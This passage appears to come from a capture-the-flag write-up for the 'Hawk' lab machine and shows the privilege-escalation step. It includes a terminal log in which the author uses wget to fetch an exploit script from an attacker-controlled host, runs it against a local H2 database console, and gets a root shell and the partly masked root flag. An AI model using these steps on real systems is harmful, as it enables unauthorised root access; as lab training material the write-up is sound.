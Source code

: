On the target, I cd to `/dev/shm` and use wget to bring across the exploit.

Executing it gets a root shell.


```

daniel@hawk:~$ cd /dev/shm
daniel@hawk:/dev/shm$ wget http://10.10.14.24/exploit.py
--2020-03-27 17:28:35--  http://10.10.14.24/exploit.py
Connecting to 10.10.14.24:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3899 (3.8K) [text/plain]
Saving to: ‘exploit.py’

exploit.py          100%[===================>]   3.81K  --.-KB/s    in 0.003s  

2020-03-27 17:28:35 (1.23 MB/s) - ‘exploit.py’ saved [3899/3899]

daniel@hawk:/dev/shm$ python3 exploit.py
usage: exploit.py [-h] -H 127.0.0.1:8082 [-d jdbc:h2:~/emptydb-Chi5r]
exploit.py: error: the following arguments are required: -H/--host
daniel@hawk:/dev/shm$ python3 exploit.py -H 127.0.0.1:8082
[*] Attempting to create database
[+] Created database and logged in
[*] Sending stage 1
[+] Shell succeeded - ^c or quit to exit
h2-shell$ id
uid=0(root) gid=0(root) groups=0(root)

h2-shell$ cat /root/root.txt
54xxxxxxxxxxxxxxxxxxxxxxxxxxxxa0

```

:)


